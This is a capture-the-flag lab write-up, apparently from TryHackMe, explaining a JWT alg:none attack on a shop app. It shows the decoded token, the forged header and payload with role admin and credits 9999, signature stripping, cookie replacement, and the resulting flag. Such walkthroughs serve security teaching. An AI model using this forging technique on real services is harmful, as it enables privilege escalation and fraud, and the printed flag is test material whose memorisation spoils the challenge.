




# 🛍 TryHeartMe Shop – JWT Privilege Escalation

> **Target:** `http://10.48.178.243:5000`
> **Category:** Web
> **Vulnerability:** Improper JWT Validation (`alg:none`)
> **Objective:** Purchase the hidden *ValenFlag* item

---

# 🧭 Challenge Overview

The TryHeartMe Valentine Shop allows users to purchase themed items using credits.

However:

* Online credit top-ups are disabled
* New users start with **0 credits**
* A hidden product called **ValenFlag** exists
* The goal is to purchase the hidden item

This immediately suggests a **business logic flaw** or **authorization bypass**.

---

# 🔎 Step 1 – Initial Recon

After registering and logging in, the dashboard shows:

* Role: `user`
* Credits: `0`

### 🖼 Logged-In Dashboard



Attempting to purchase an item results in:

```
Not enough credits.
```

Since there is no way to legitimately gain credits, the solution must involve logic manipulation.

---

# 🔍 Step 2 – Inspecting Cookies

Opening DevTools → Storage → Cookies revealed:

```
tryheartme_jwt = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...
```

### 🖼 JWT Cookie Identified



This confirms the application uses **JSON Web Tokens (JWT)** for authentication.

JWT-based systems are often vulnerable if misconfigured.

---

# 🔐 Step 3 – Decoding the JWT (Using CyberChef)

To analyze the token, I used **CyberChef**.

---

## 🧰 Decoding Process

1. Copied the full `tryheartme_jwt` value from the browser.
2. Opened **CyberChef**.
3. Pasted the token into the input field.
4. Applied the **“JWT Decode”** recipe.

CyberChef automatically decoded:

### Header

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

### Payload

```json
{
  "email": "hello@thm.com",
  "role": "user",
  "credits": 0,
  "iat": 1771092554,
  "theme": "valentine"
}
```

---

# 🚨 Critical Observations

Sensitive attributes are stored inside the token:

* `role`
* `credits`

This means:

> The server trusts client-controlled JWT claims.

This is a major design flaw.

---

# 💥 Step 4 – JWT Tampering (alg:none Attack)

The header specifies:

```json
"alg": "HS256"
```

If the server improperly validates JWT signatures, it may accept:

```json
"alg": "none"
```

This removes signature verification entirely.

---

## ✏️ Modifying the Token in CyberChef

### Step 1 – Change Header

Modified to:

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

---

### Step 2 – Modify Payload

Changed:

```json
"credits": 0
```

to:

```json
"credits": 9999
```

and

```json
"role": "user"
```

to:

```json
"role": "admin"
```

Final payload:

```json
{
  "email": "hello@thm.com",
  "role": "admin",
  "credits": 9999,
  "iat": 1771092554,
  "theme": "valentine"
}
```

---

### Step 3 – Remove Signature

Rebuilt the token as:

```
base64(header).base64(payload).
```

Notice the trailing dot — no signature.

---

# 🔄 Step 5 – Replace the Cookie

Using DevTools:

1. Replaced the `tryheartme_jwt` cookie value with the forged token.
2. Refreshed the page.

---

# 🚀 Privilege Escalation Success

After refresh:

* Role changed to `admin`
* Credits updated to `9999`

### 🖼 Admin Dashboard View



This confirms:

> The server does not properly validate JWT signatures.

---

# 🛒 Step 6 – Accessing the Hidden Product

Navigating to:

```
/product/valenflag
```

The hidden item becomes accessible.

### 🖼 ValenFlag Product Page



Price:

```
777 credits
```

Since we now have 9999 credits, we can purchase it.

---

# 🏁 Final Flag

```
THM{v4l3nt1n3_jwt_c00k13_t4mp3r_4dm1n_sh0p}
```
